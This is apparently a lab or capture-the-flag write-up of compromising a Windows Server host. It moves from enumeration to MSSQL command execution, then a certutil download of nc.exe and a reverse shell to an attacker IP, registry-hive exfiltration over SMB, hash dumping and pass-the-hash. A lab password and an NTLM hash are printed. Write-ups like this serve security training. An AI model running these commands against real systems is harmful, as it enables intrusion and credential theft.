## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt 10.11.1.31
```

```text
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     ASPSESSIONIDQCDBRTQR: 
|_      httponly flag not set
|_http-title: Login
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-05-13T10:59:35
| Not valid after:  2052-05-13T10:59:35
| MD5:   91a7 f813 75cd 9b1d 64b9 87d8 973b 3a2b
|_SHA-1: 79a6 565e d120 1f78 cb7c 17f6 866a 1333 9da2 9821
|_ssl-date: 2022-08-02T03:44:03+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: RALPH
|   NetBIOS_Domain_Name: RALPH
|   NetBIOS_Computer_Name: RALPH
|   DNS_Domain_Name: ralph
|   DNS_Computer_Name: ralph
|_  Product_Version: 10.0.14393
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ralph
| Issuer: commonName=ralph
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-05-12T10:59:09
| Not valid after:  2022-11-11T10:59:09
| MD5:   3bcb 5aaf 4274 af22 0391 b52f be17 256a
|_SHA-1: 98fd af66 05ca 4449 2f7c e4a0 1dca 2da4 af40 1569
|_ssl-date: 2022-08-02T03:44:03+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RALPH
|   NetBIOS_Domain_Name: RALPH
|   NetBIOS_Computer_Name: RALPH
|   DNS_Domain_Name: ralph
|   DNS_Computer_Name: ralph
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-02T03:43:24+00:00
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time: 
|   date: 2022-08-02T03:43:25
|_  start_date: 2022-05-13T10:59:12
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: ralph
|   NetBIOS computer name: RALPH\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-02T03:43:26+00:00
| ms-sql-info: 
|   10.11.1.31:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```

### SMB

```bash
smbclient -N -L //10.11.1.31
```

  

```bash
smbclient -N //10.11.1.31/wwwroot
```

  

We can't `put` file but we can `get` them.

  

Inside the `login-off.asp` file we can find credential to a MSSQL server.

  

```text
sa:poiuytrewq
```

## Shell as SYSTEM

```bash
impacket-mssqlclient 'sa:poiuytrewq@10.11.1.31'
```

  

We can use `enable_xp_cmdshell` to allow us to execute shell commands.

  

Start a `netcat` listener to catch our shell.

```bash
rlwrap nc -lnvp 9001
```

```powershell
xp_cmdshell certutil -urlcache -split -f http://192.168.119.194/nc.exe c:\windows\temp\nc.exe
xp_cmdshell c:\windows\temp\nc.exe 192.168.119.194 9001 -e powershell.exe
```

  

And we get our shell.

  

### Proof

```powershell
cat proof.txt; ipconfig
```

  

```text
dec04ea1c0d39acd7a53c543540b0a3a
```

## Post Exploitation

### Dump SAM

We first need to dump the `HKLM` `sam`, `system` and `security` registry hives.

```powershell
reg.exe save hklm\sam c:\users\administrator\desktop\sam.save
reg.exe save hklm\system c:\users\administrator\desktop\system.save
reg.exe save hklm\security c:\users\administrator\desktop\security.save
```

  

Then we can setup a smb share to exfiltrate these files back to our machine.

```bash
impacket-smbserver -smb2support kali .
```

  

```powershell
net use * \\192.168.119.194\kali
```

  

Now we can copy the registry hives to the `z:\` share.

```powershell
cp c:\users\administrator\desktop\sam.save z:\
cp c:\users\administrator\desktop\system.save z:\
cp c:\users\administrator\desktop\security.save z:\
```

Finally we can now extract user hashes using `secretsdump`.

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL -outputfile hashes/hashes
```

  

### Pass the Hash

We can use a PtH attack to get a shell on the machine now.

```text
Administrator:f58b86e89c8631e432cf1a034662853f
```

```bash
impacket-psexec Administrator@10.11.1.31 -hashes :f58b86e89c8631e432cf1a034662853f
```

  